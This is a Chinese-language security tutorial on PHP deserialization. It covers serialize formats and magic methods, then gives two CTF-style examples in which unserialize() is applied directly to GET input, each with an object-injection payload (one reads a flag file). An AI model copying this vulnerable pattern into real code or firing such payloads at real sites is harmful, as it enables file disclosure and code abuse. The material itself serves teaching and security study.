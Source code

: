 反序列化
================================

PHP序列化实现
--------------------------------
PHP序列化处理共有三种，分别为php_serialize、php_binary和WDDX（需要编译时开启支持），默认为php_serialize，可通过配置中的 ``session.serialize_handler`` 修改。

其中PHP处理器的格式为：键名 + 竖线 + 经过serialize()函数序列化处理的值。

其中php_binary处理器的格式为：键名的长度对应的 ASCII 字符 + 键名 + 经过serialize()函数序列化处理的值。

其中php_serialize处理器的格式为：经过serialize()函数序列化处理的数组。

其中php_serialize的实现在 ``php-src/ext/standard/var.c`` 中，主要函数为 ``php_var_serialize_intern`` ，序列化后的格式如下：

- boolean
    - ``b:<value>;``
    - ``b:1;`` // true
    - ``b:0;`` // false
- integer
    - ``i:<value>;``
- double
    - ``d:<value>;``
- NULL
    - ``N;``
- string
    - ``s:<length>:"<value>";``
    - ``s:1:"s";``
- array
    - ``a:<length>:{key, value};``
    - ``a:1:{s:4:"key1";s:6:"value1";}`` // ``array("key1" => "value1");``
- object
    - ``O:<class_name_length>:"<class_name>":<number_of_properties>:{<properties>};``
- reference
    - 指针类型
    - ``R:reference;``
    - ``O:1:"A":2:{s:1:"a";i:1;s:1:"b";R:2;}``
    - ``$a = new A();$a->a=1;$a->b=&$a->a;``
	
|php-serialize|

PHP反序列化漏洞
--------------------------------

相关魔术方法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ __construct()当一个对象创建时被调用
+ __destruct()当一个对象销毁时被调用
+ __toString()当一个对象被当作一个字符串使用
+ __sleep() 在对象在被序列化之前运行
+ __wakeup将在序列化之后立即被调用
+ __toString在echo时被触发, ``__call`` 在一个未被定义的函数调用时被触发。


示例
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code:: php

	<?php
	class A{
		var $test = "demo";
		function __destruct(){
			echo $this->test;
		}
	}
	$a = $_GET['test'];
	$a_unser = unserialize($a);
	?>

payload：``http://127.0.0.1/test.php?test=O:1:"A":1:{s:4:"test";s:5:"hello";}``

.. code:: php

	<?php
		//flag is in pctf.php
		class Shield {
			public $file;
			function __construct($filename = '') {
				$this -> file = $filename;
			}
			function readfile() {
				if (!empty($this->file) && stripos($this->file,'..')===FALSE  
				&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
					return @file_get_contents($this->file);
				}
			}
		}
	?>
	
	<?php 
		require_once('shield.php');
		$x = new Shield();
		isset($_GET['class']) && $g = $_GET['class'];
		if (!empty($g)) {
			$x = unserialize($g);
		}
		echo $x->readfile();
	?>
	
payload：``O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}``

.. |php-serialize| image:: ../../images/php-serialize.png